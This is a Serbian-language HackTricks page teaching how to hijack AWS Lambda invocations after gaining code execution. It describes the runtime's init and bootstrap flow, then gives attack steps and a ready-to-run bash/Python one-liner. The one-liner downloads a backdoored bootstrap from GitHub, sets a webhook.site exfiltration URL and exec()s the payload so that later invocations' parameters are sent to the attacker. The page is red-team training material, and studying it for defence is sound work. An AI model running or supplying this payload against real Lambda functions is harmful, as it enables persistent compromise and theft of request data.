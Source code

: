 # AWS - Ukradi Lambda zahteve

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite svoju **kompaniju reklamiranu na HackTricks-u** ili da **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodiču PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Lambda Tok

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** je proces van kontejnera koji **šalje** **pozive** **inicijalnom** procesu.
2. Inicijalni proces osluškuje port **9001** izlažući neke zanimljive endpointove:
* **`/2018-06-01/runtime/invocation/next`** – dobijanje sledećeg događaja poziva
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – vraćanje odgovora handlera za poziv
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – vraćanje greške izvršenja
3. **bootstrap.py** ima petlju koja dobija pozive od inicijalnog procesa i poziva korisnički kod da ih obradi (**`/next`**).
4. Na kraju, **bootstrap.py** šalje inicijalnom procesu **odgovor**

Imajte na umu da bootstrap učitava korisnički kod kao modul, tako da svako izvršavanje koda koje obavlja korisnički kod zapravo se dešava u ovom procesu.

## Ukradene Lambda Zahteve

Cilj ovog napada je da se natera korisnički kod da izvrši zlonamerni **`bootstrap.py`** proces unutar **`bootstrap.py`** procesa koji obrađuje ranjiv zahtev. Na ovaj način, **zlonamerni bootstrap** proces će početi **komunicirati sa inicijalnim procesom** kako bi obradio zahteve dok je **legitimni** bootstrap **zarobljen** izvršavajući zlonamerni, tako da neće tražiti zahteve od inicijalnog procesa.&#x20;

Ovo je jednostavan zadatak za postizanje jer se kod korisnika izvršava od strane legitimnog **`bootstrap.py`** procesa. Dakle, napadač bi mogao:

* **Poslati lažan rezultat trenutnog poziva inicijalnom procesu**, tako da inicijalni proces misli da bootstrap proces čeka na više poziva.
* Zahtev mora biti poslat na **`/${invoke-id}/response`**&#x20;
* invoke-id se može dobiti iz steka legitimnog **`bootstrap.py`** procesa koristeći [**inspect**](https://docs.python.org/3/library/inspect.html) python modul (kao što je [predloženo ovde](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) ili jednostavno ponovno zahtevajući sa **`/2018-06-01/runtime/invocation/next`** (kao što je [predloženo ovde](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Izvršiti zlonamerni **`boostrap.py`** koji će obraditi sledeće pozive
* Radi prikrivenosti, moguće je poslati parametre lambda poziva ka kontrolisanom C2 napadača, a zatim obraditi zahteve kao i obično.
* Za ovaj napad, dovoljno je dobiti originalni kod **`bootstrap.py`** sa sistema ili [**github-a**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodati zlonamerni kod i pokrenuti ga iz trenutnog lambda poziva.

### Koraci Napada

1. Pronađite **RCE** ranjivost.
2. Generišite **zlonamerni** **bootstrap** (npr. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Izvršite** zlonamerni bootstrap.

Ove akcije možete lako izvršiti pokretanjem:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Za više informacija pogledajte [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Reference

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
